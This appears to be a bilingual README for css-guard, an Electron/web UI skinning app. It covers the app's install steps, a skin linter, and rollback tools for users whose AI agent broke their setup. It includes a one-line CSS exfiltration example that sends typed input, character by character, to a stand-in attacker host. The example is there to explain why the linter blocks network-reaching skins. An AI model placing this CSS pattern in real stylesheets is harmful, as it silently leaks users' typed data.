

<div align="center">


# css-guard

**给 Electron 应用和网页界面换皮肤。下载、双击、装好、能用。**

自带一个会拒绝安装危险皮肤的检查器，和一套「出事了怎么退回去」的救援机制

[⬇ 下载安装包](https://github.com/LinzOpen/css-guard/releases/latest) ·
[出问题了怎么办](#出问题了怎么办) ·
[自己做一套皮肤](docs/skin-format.md) ·
[给开发者](#给会写代码的人)



</div>

---

## 三步装好

**第一步 · 下载**

去 [下载页](https://github.com/LinzOpen/css-guard/releases/latest)，按你的电脑选一个：

| 你的电脑 | 下载这个文件 |
|---|---|
| Mac（2020 年之后买的，M1/M2/M3/M4 芯片） | `css-guard-<版本>-mac-arm64.dmg` |
| Mac（更早的，Intel 芯片） | `css-guard-<版本>-mac-x64.dmg` |
| Windows | `css-guard-Setup-<版本>-x64.exe` |
| Windows（不想装，想放 U 盘里直接用） | `css-guard-<版本>-win-x64.zip` |
| Linux | `css-guard-<版本>-linux-x86_64.AppImage` |

> 不确定自己的 Mac 是哪种？左上角苹果标 → 「关于本机」，写着 **Apple M…** 就选 arm64，写着 **Intel** 就选 x64。

**第二步 · 装**

Mac：双击 `.dmg`，把图标拖进「应用程序」。
Windows：双击 `.exe`，一路下一步。

**第三步 · 第一次打开**

这个软件**没有花钱买代码签名证书**，所以系统第一次会拦一下。这是正常的，不是病毒：

- **Mac**：在「应用程序」里找到 css-guard，**右键点它 → 打开 → 再点一次「打开」**。
  （直接双击会说「已损坏」或「无法验证开发者」—— 右键打开是苹果给的正规放行方式，只需要做这一次。）
- **Windows**：出现蓝色的「Windows 已保护你的电脑」时，点 **「更多信息」→「仍要运行」**。

装好了。打开就能用，不需要注册、不需要联网、不需要装别的任何东西。

---

## 它能做什么

**一套皮肤就是一个文件夹**：一个 `skin.json` + 一个 `skin.css` + 它要用的图。

### 工作室 —— 挑皮肤、改皮肤、做皮肤

左边是皮肤库，中间是**实时预览**。预览用的是软件自带的假界面，所以你的电脑上
**不需要装任何其它软件**，装完打开就能看到皮肤长什么样。

改一个颜色，中间立刻跟着变。右边会告诉你这套皮肤有没有问题。

手上是图不是配色？点 **「导入素材」**，选几张图，它们就变成一套皮肤 ——
选多张的话会变成一套可以自动轮换的皮肤，一轮之内不重复。

### 外壳 —— 把别的界面装进带皮肤的窗口

在「外壳」页填一个网址（多半是你本地跑着的某个网页界面），它会开一个套着当前皮肤的窗口。
换皮肤时所有外壳窗口一起换。

**它只往那个页面里加样式，从不注入脚本，也不改对方的任何文件。** 关掉窗口就什么都不剩。

### 检查器 —— 它会拒绝装危险的皮肤

皮肤是会被塞进你界面里的代码。很多人以为「不过是 CSS 而已」，但**纯 CSS 也能把你输入的东西发出去**：

```css
input[value^="a"] { background: url(https://坏人的服务器/?a); }
```

一个字符一条规则，命中一次就发一个请求，你输入框里的内容被一个字母一个字母地送走 ——
全程没有 JavaScript，没有任何弹窗，屏幕上什么都看不出来。

所以 css-guard **拒绝套用任何会访问网络的皮肤**。是拦下来，不是提醒一下。
（[为什么一个样式表需要检查器](docs/security.md)）

它还会拦另外两种「现在能用、迟早出事」的写法：铺满窗口的永不停止动画
（实测把一个宿主从 **2.5% CPU 拉到 111%**），以及钩住 `.pI_x6G_frame` 这种编译产物类名的选择器
（对方软件一升级，皮肤当场失效）。

---

## 出问题了怎么办

现在越来越多人是**完全靠 AI 助手**来用这类软件的。所以真正要防的失败不是崩溃，而是：
**AI 做错了一件事，然后那个会话结束了，而剩下的这个人不写代码。**

这个场景是被设计过的：

### 情况一 · 软件还打得开

点顶上的 **「恢复」**。第一行用一句话告诉你现在什么状况，下面第一个按钮是
**「回到上一个正常状态」**。

它会**先把「打算改什么」列给你看**，你点确认才动手。而且它**只写回和补建，从不删任何东西** ——
所以点它不会让事情更糟，最坏的情况是没有变化。


### 情况二 · 软件打不开了

**先多双击两次。** 软件连续两次没能启动到界面，会**自动**进入安全模式：
下次启动不套任何皮肤、不轮换。你的皮肤一套都没丢，只是暂时不生效。

还是不行的话，打开你电脑上的这个文件夹：

- Mac：访达 → 菜单栏「前往」→「前往文件夹」→ 粘贴 `~/.css-guard/急救`
- Windows：文件资源管理器地址栏粘贴 `%USERPROFILE%\.css-guard\急救`

里面按编号排好了几个文件，**双击就行，不需要输入任何东西**：

```
1 看看出了什么问题      先点这个。只看，不改。
2 回到上一个正常状态    给你看它打算改什么（还没真的改）
3 确认回退              看过第 2 步没问题，再点这个
4 下次启动不套皮肤      软件打不开时先点它，再去打开软件
5 恢复正常启动          问题解决后点它
```

这些文件用的是**软件自己**，你电脑上不用装 Node、不用装任何开发工具。

### 情况三 · 手上有 AI 助手，但它不懂这个软件

把「1 看看出了什么问题」窗口里的全部文字复制下来，连同下面这句话发给它：

> 这是 css-guard 的体检输出，请告诉我每一条是什么意思、下一步该双击哪个文件。
> 不要让我删除任何文件。

更完整的说明（也包括给 AI 助手看的操作契约）：[docs/agent-recovery.md](docs/agent-recovery.md)

### 你的东西不会丢

- **每次改动之前自动存一个还原点**（套用皮肤、新建、导入、删除都会），不需要你记得。
- **回退永远不删东西** —— 只写回和补建。还原点之后新增的皮肤会原样保留。
- 你自己做的皮肤都在 `~/.css-guard/skins` 里，上面所有操作都不会碰它们。

---

## 给会写代码的人

### 自己做一套皮肤

```bash
npx @css-guard/cli new my-skin      # 生成骨架
npx @css-guard/cli validate skins   # 检查，有 error 退出码 1，可直接当 CI 闸门
npx @css-guard/cli pack skins/my-skin   # 打成 zip 分享
```

格式一页写完：[docs/skin-format.md](docs/skin-format.md)

### 让你自己的 Electron 应用能换皮肤

```js
const { registerSkinScheme, createSkinHost } = require("@css-guard/electron");

registerSkinScheme();                                  // app ready 之前

const skins = createSkinHost({ roots: [skinsDir] });   // ready 之后
skins.install();
skins.attach(mainWindow);
await skins.apply("midnight-harbor");
```

细节和 DSH 插件适配器：[docs/hosts.md](docs/hosts.md)

### 从源码跑 / 参与

```bash
git clone https://github.com/LinzOpen/css-guard.git
cd css-guard && npm install && npm start
```

```bash
npm run check                                 # 仓库自检 + 单元测试 + 皮肤校验
npx electron app/test/smoke.js                # 程序端到端（真 Electron）
npx electron packages/host/test/smoke.js      # SDK 端到端
docker build -f Dockerfile.test -t css-guard-test .   # 干净 Linux 容器里跑全量
```

CI 在 ubuntu / macOS / windows 三个平台重复跑同一套。踩过的坑写在 [AGENTS.md](AGENTS.md)。

### 仓库结构

```
packages/core   引擎：清单、检查器、皮肤库、用户目录、还原点、体检。零依赖，不 import Electron。
packages/host   Electron 接入 SDK。
packages/cli    命令行 —— 也是软件打不开时的入口。
app             桌面程序：工作室 + 外壳 + 恢复。
skins           六套原创皮肤，纯 CSS、零图片、CC0。
adapters/       DSH 插件适配器。
```

---

## 参与

皮肤和代码都欢迎。一条硬规矩：**每套皮肤必须写 `license`，并且你必须有权公开它的素材。**

游戏官方立绘和同人图**不因为你在哪儿找到的就变成 CC0** —— CI 会拒绝没有 license 字段的皮肤，
夹带你没有权利的美术素材的 PR 会被关掉。仓库自带的六套全是纯 CSS、零图片，就是为了避开这件事。

见 [CONTRIBUTING.md](CONTRIBUTING.md)。发现安全问题请走 [SECURITY.md](SECURITY.md)，别在公开 issue 里贴可用的攻击样本。

## 许可

代码 [MIT](LICENSE)。每套皮肤在自己的 `skin.json` 里声明许可；仓库自带的六套是 CC0-1.0。

---

<details>
<summary><b>English</b></summary>

## What it is

A skin is a folder: `skin.json` + `skin.css` + whatever images it needs. `css-guard` is three things
that make those folders useful.

**A desktop app.** Download, double-click, install. It works with nothing else installed — the live
preview runs against a built-in mock UI, so you can see and author skins on a clean machine.
Grab a build from [Releases](https://github.com/LinzOpen/css-guard/releases/latest); they are **not
code-signed**, so on first launch right-click → *Open* on macOS, or *More info* → *Run anyway* on
Windows.

**A shell.** Type a URL — usually a web UI you run locally — and it opens in a window wearing the
current skin. CSS only, never scripts, and nothing is written to the target application.

**A linter.** A skin is code injected into your interface, and *plain CSS can exfiltrate what you
type*:

```css
input[value^="a"] { background: url(https://attacker.example/?a); }
```

One rule per character, one request per hit, no JavaScript involved. `css-guard` refuses to inject any
skin that reaches the network — a block, not a warning. It also catches the two failure modes that
make skins rot: full-window `infinite` animations (measured: **2.5% → 111% CPU** on one host) and
selectors hooked to compiled class names like `.pI_x6G_frame`.

## When the agent breaks it

More and more people run software like this entirely through an AI agent. So the failure that matters
is not a crash — it is: the agent does something wrong, its session ends, and the person left holding
it does not write code.

- **Every change writes a restore point first**, automatically.
- **Rollback never deletes.** It writes files back and recreates missing ones; anything added since
  the snapshot is left alone and listed. Undo cannot become the second accident.
- **It shows you what it will do first.** Dry run until you confirm.
- **Two failed launches trip safe mode automatically.** Nothing to click.
- **A `~/.css-guard/急救` folder of double-clickable scripts** drives all of this without a terminal
  and without Node installed — they invoke the app's own runtime.
- **`doctor --json` is written for an agent to read.** Every non-ok finding carries the command that
  fixes it, so the next agent can pick up a situation it did not create.

Full contract: [docs/agent-recovery.md](docs/agent-recovery.md)

## For developers

```js
const { registerSkinScheme, createSkinHost } = require("@css-guard/electron");
registerSkinScheme();                                  // before app.whenReady()
const skins = createSkinHost({ roots: [skinsDir] });   // after
skins.install();
skins.attach(mainWindow);
await skins.apply("midnight-harbor");
```

[Skin format](docs/skin-format.md) · [Host guide](docs/hosts.md) · [Why the linter](docs/security.md)

MIT for the code; each skin carries its own license.

</details>
